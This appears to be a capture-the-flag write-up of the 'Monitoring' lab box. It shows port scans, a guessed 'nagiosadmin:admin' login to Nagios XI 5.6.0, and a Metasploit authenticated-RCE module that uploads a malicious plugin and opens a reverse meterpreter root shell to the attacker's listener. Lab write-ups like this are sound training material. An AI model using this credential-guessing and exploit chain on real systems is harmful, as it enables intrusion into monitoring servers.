 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/monitoring-1,555/)  
This box was customized by Offensive Security and integrated in the 'proving grounds' lab.  
In the following you see the solution of the 'proving grounds' version.  

# discovery
## port scan
```bash
$ nmap -Pn -p- 192.168.198.136
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-22 16:42 EST
Nmap scan report for 192.168.198.136
Host is up (0.026s latency).
Not shown: 65529 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
389/tcp  open  ldap
443/tcp  open  https
5667/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 19.19 seconds

$ nmap -Pn -p22,25,80,389,443,5667 -sV 192.168.198.136
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-22 16:43 EST
Nmap scan report for 192.168.198.136
Host is up (0.14s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp       Postfix smtpd
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
5667/tcp open  tcpwrapped
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.20 seconds
```

## port 80 and 443 (web server)
A `nagios` is running here.

![nagios](/images/monitoring_nagios.png)

--- 

# exploitation
## default password
Googling for default credentials online reveals that the default username for `nagios` is `nagiosadmin`.

![nagios default credentials](/images/monitoring_nagiosdefaultcreds.png)

> Unfortunately the default password for `nagiosadmin` does not work.
{: .prompt-danger }

Lets check if user `nagiosadmin` may used another weak password.

![nagios logged in](/images/monitoring_nagiosloggedin.png)

> Checking `nagiosadmin:admin` as credentials works!
> The screenshot reveals that `nagios xi 5.6.0` is installed.
{: .prompt-info }

## finding an exploit
Looking in `metasploit` shows 2 different potential authenticated remote code executions.

```bash
msf6 exploit(multi/handler) > search nagios xi 5.6

Matching Modules
================

   #  Name                                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                                 ---------------  ----       -----  -----------
   0  exploit/linux/http/nagios_xi_mibs_authenticated_rce                  2020-10-20       excellent  Yes    Nagios XI 5.6.0-5.7.3 - Mibs.php Authenticated Remote Code Exection
   1  exploit/linux/http/nagios_xi_magpie_debug                            2018-11-14       excellent  Yes    Nagios XI Magpie_debug.php Root Remote Code Execution
   2  exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Prior to 5.6.6 getprofile.sh Authenticated Remote Command Execution


Interact with a module by name or index. For example info 2, use 2 or use exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
```

Lets check `exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce`.

## exploit it
```bash
msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > options

Module options (exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so. This includes signing the license agreement.
   PASSWORD        admin            yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.198.136  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.49.198   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)

msf6 exploit(linux/http/nagios_xi_plugins_check_plugin_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.49.198:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3012548 bytes) to 192.168.198.136
[*] Meterpreter session 2 opened (192.168.49.198:4444 -> 192.168.198.136:35670 ) at 2022-11-22 17:13:36 -0500
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

meterpreter > getuid
Server username: root
```

> It worked and we got a `root` shell!
{: .prompt-info }

---

# post exploitation
## get the flag
```bash
meterpreter > shell
Process 15081 created.
Channel 1 created.
ls
CHANGES.txt
getprofile.sh
profile.inc.php
profile.php
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
proof.txt
scripts
cat proof.txt
2******************************2
```

Pwned! <@:-)
